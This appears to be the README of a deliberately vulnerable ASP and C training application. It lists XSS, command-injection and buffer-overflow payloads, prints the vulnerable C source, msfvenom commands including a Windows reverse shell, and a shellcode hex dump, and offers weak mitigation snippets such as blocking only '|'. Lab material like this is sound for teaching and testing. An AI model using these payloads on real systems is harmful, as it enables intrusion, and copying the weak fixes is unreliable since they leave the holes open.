# YrpreyASPC

![yprey](https://i.imgur.com/POSFjX8.png)

**Created by [Fernando Mengali](https://www.linkedin.com/in/fernando-mengali-273504142/)**

YrpreyASPC is a development framework for those interested in offensive security and application security to mitigate vulnerabilities. This framework aims to demonstrate vulnerabilities in ASP and how Cross-Site Scripting, Buffer Overflow, and remote command execution vulnerabilities work, exploiting the lack of sanitization in ASP processing and the executable software create_user.exe.


The framework was developed to teach and learn details in Pentest (testing penetration) and Application Security. In the context of Offensive Security, vulnerabilities contained in web applications can be identified, exploited and compromised. For application security professionals and experts, the framework provides an in-depth understanding of code-level vulnerabilities. Yrprey, making it valuable for educational, learning and teaching purposes in the field of Information Security. For more information about the vulnerabilities.

#### The system has the following vulnerabilities:

After understanding the scenario and the vulnerable route, the process of identifying and exploiting vulnerabilities becomes easier. If you are an Application Security professional, knowing the scenario and routes of endpoints makes the process of identifying and correcting vulnerabilities easier with manual Code Review Security techniques or automated SAST and DAST analyses

Complete table with points vulnerables, vulnerability details:



 ## The framework was written with the following technologies:

* 1º - ASP
* 2º - C language

#### List of Vulnerabilities

|Qtde |          **Vulnerabilties**          |**Method**|  **Path and attack**                |                   **Payload Example**                   |
|----:|:------------------------------------:|:--------:|:-----------------------------------:|:-------------------------------------------------------:|
| 01  |  XSS - Cross-site Scripting          |   GET    |  /index.asp                         |        XSS Basic                                        |
| 02  |  Remote Command Execution            |   N/A    |  create_user.exe pipe <command>     |   create_user.exe "pipe" ipconfig                       |
| 03  |  Buffer Overflow - Vanilla           |   N/A    |  create_user.exe <exploit payload>  |   create_user.exe (28 offset)+EIP+(16 0x90) + shellcode | 


## How Install IIS

* 1º - Access Control Panel: Click on "Start" and select "Control Panel".
* 2º - Add or Remove Programs: In the Control Panel, click on "Add or Remove Programs".
* 3º - Add/Remove Windows Components: On the left side, click on "Add/Remove Windows Components".Import the yrprey.sql into the database.
* 4º - Select Internet Information Services (IIS): In the list of Windows components, check the box for "Internet Information Services (IIS)".

## Configure IIS
* 1º - Access the IIS Manager: After installation, open the "Internet Information Services (IIS) Manager". To do this, click on "Start" > "Control Panel" > "Administrative Tools" > "Internet Information Services (IIS) Manager".
* 2º - Configure the Default Website:   In the IIS Manager, expand the local computer node and click on "Websites". You will see the "Default Website".
* 3º - Default Website Properties:   Right-click on the "Default Website" and select "Properties".
* 4º - Basic Settings:   In the "General" tab, you can view and change the physical path where the site files are stored.
* 5º - In the "Documents" tab, you can add or remove default pages such as default.asp or index.html.
* 6º - Security and Permissions: In the "Directory Security" tab, you can configure permissions and authentication for the site.

## Access to page

* 1º Add the ASP file, such as index.html or default.asp, and save it in the root directory of the "Default Website": C:\Inetpub\wwwroot.
* 2º Access the Site: Access the address http://localhost in your browser


## How to fix vulnerabilities

Sanitization Protect
```asp

Function SanitizeInput(input)
    SanitizeInput = Replace(input, "'", "''")
    SanitizeInput = Replace(SanitizeInput, ";", "")
    SanitizeInput = Replace(SanitizeInput, "&", "")
End Function

username = SanitizeInput(Request.Form("username"))
email = SanitizeInput(Request.Form("email"))
telephone = SanitizeInput(Request.Form("telephone"))


```

Protection to XSS
```asp

Function HTMLEncode(str)
    HTMLEncode = Server.HTMLEncode(str)
End Function
Response.Write "Username " & HTMLEncode(nome) & " successful!"


```

Protection to Remote Command Execution - RCE
```asp
If InStr(nome, "|") = 0 Then
    shell.Run "create_user.exe " & userme, 0, True
End If

```


### This is the vulnerable code in C language.
```c
    #include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char username[20];
    char mkdir_command[50];

    // Checks if the expected argument (username) has been passed
    if (argc != 2) {
        printf("Use: %s username\n", argv[0]);
        return 1;
    }

    // Copies the argument to the username variable
    strncpy(username, argv[1], sizeof(username) - 1);
    username[sizeof(username) - 1] = '\0';  // Garante que username seja terminado corretamente

    // Constructs the command to create the directory with the username
    snprintf(mkdir_command, sizeof(mkdir_command), "mkdir %s", username);

    // Executes the mkdir command to create the directory
    printf("Executing command: %s\n", mkdir_command);
    int result = system(mkdir_command);

    // Checks if the directory was created successfully
    if (result == 0) {
        printf("Directory '%s' created successfully.\n", username);
    } else {
        printf("Error creating directory '%s'.\n", username);
        return 1;  // Exits the program in case of an error during directory creation
    }

    // Here you can continue the flow of your program as needed

    return 0;
}

```


## Generate Shellcode calc.exe usage


Command msfvenom to generate calc.exe

````c
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0a\x0d' EXITFUNC=thread -f python

````

````

\xd9\xe5\xd9\x74\x24\xf4\x5e\x29\xc9\xbf\x4e\x2d
\xb6\x3e\xb1\x31\x83\xc6\x04\x31\x7e\x14\x03\x7e
\x5a\xcf\x43\xc2\x8a\x8d\xac\x3b\x4a\xf2\x25\xde
\x7b\x32\x51\xaa\x2b\x82\x11\xfe\xc7\x69\x77\xeb
\x5c\x1f\x50\x1c\xd5\xaa\x86\x13\xe6\x87\xfb\x32
\x64\xda\x2f\x95\x55\x15\x22\xd4\x92\x48\xcf\x84
\x4b\x06\x62\x39\xf8\x52\xbf\xb2\xb2\x73\xc7\x27
\x02\x75\xe6\xf9\x19\x2c\x28\xfb\xce\x44\x61\xe3
\x13\x60\x3b\x98\xe7\x1e\xba\x48\x36\xde\x11\xb5
\xf7\x2d\x6b\xf1\x3f\xce\x1e\x0b\x3c\x73\x19\xc8
\x3f\xaf\xac\xcb\xe7\x24\x16\x30\x16\xe8\xc1\xb3
\x14\x45\x85\x9c\x38\x58\x4a\x97\x44\xd1\x6d\x78
\xcd\xa1\x49\x5c\x96\x72\xf3\xc5\x72\xd4\x0c\x15
\xdd\x89\xa8\x5d\xf3\xde\xc0\x3f\x99\x21\x56\x3a
\xef\x22\x68\x45\x5f\x4b\x59\xce\x30\x0c\x66\x05
\x75\xf2\x84\x8c\x83\x9b\x10\x45\x2e\xc6\xa2\xb3
\x6c\xff\x20\x36\x0c\x04\x38\x33\x09\x40\xfe\xaf
\x63\xd9\x6b\xd0\xd0\xda\xb9\xb3\xb7\x48\x21\x1a
\x52\xe9\xc0\x62
````

Exploited Buffer Overflow Vanilla - Calc.exe

![yprey](https://i.imgur.com/05hqd1F.png)

## Generate Shellcode shell reverse usage

Command msfvenom to generate calc.exe

````c

sfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> EXITFUNC=thread -b '\x00\x0a\x0d' -a x86 --platform Windows -f c

````

Exploited Buffer Overflow Vanilla - Shell Reverse

![yprey](https://i.imgur.com/ljv3tLs.png)

![yprey](https://i.imgur.com/MXMfA84.png)

## Observation
You can test on Windows XP with IIS.

## Reporting Vulnerabilities

Please, avoid taking this action and requesting a CVE!

The application intentionally has some vulnerabilities, most of them are known and are treated as lessons learned. Others, in turn, are more "hidden" and can be discovered on your own. If you have a genuine desire to demonstrate your skills in finding these extra elements, we suggest you share your experience on a blog or create a video. There are certainly people interested in learning about these nuances and how you identified them. By sending us the link, we may even consider including it in our references.
